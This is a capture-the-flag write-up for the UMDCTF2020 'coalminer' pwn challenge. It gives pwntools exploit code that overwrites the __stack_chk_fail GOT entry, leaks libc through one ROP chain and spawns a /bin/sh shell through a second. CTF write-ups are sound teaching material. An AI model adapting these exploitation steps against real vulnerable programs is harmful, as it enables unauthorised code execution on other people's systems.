
## coalminer

> This wp works only in my local environment (Ubnutu19.04 libc2.29)


### Description

> First to fall over when the atmosphere is less than perfect Your sensibilities are shaken by the slightest defect 
>
> `nc 161.35.8.211 9999` 
>
> Author: `moogboi`

### Attachment

[coalminer](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/UMDCTF2020/pwn/coalminer/coalminer)

### Solution

 * buffer overflow overwrite canary and trigger `__stack_chk_fail`
 * overwrite `got['__stack_chk_fail']` with gadget `pop-pop-pop-pop-ret`
 * execute first ropchain to leak libc and return to `_start`
 * execute second ropchain to getshell

#### rop1
```python
sla('> ','add')
sla('Enter a name: \n','TaQini__'+p64(elf. got['__stack_chk_fail']))
ropchain = p64(prdi) + p64(elf.got['puts']) + p64(elf.sym['puts']) + p64(0x400770) # _start
sla('Enter a description: ',p64(p4r)+ropchain)
ru('\n')

puts = uu64(rc(6))
info_addr('puts',puts)
libcbase = puts - libc.sym['puts']
info_addr('libcbase',libcbase)
system = libcbase + libc.sym['system']
binsh  = libcbase + libc.search("/bin/sh").next()
info_addr('system',system)
info_addr('binsh',binsh)
```

#### rop2
```python
sla('> ','add')
sla('Enter a name: \n','TaQini__'+p64(elf. got['__stack_chk_fail']))
ropchain = p64(ret) + p64(prdi) + p64(binsh) + p64(system) + p64(0x400770)
sla('Enter a description: \n',p64(p4r)+ropchain)
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/UMDCTF2020/pwn/coalminer) 


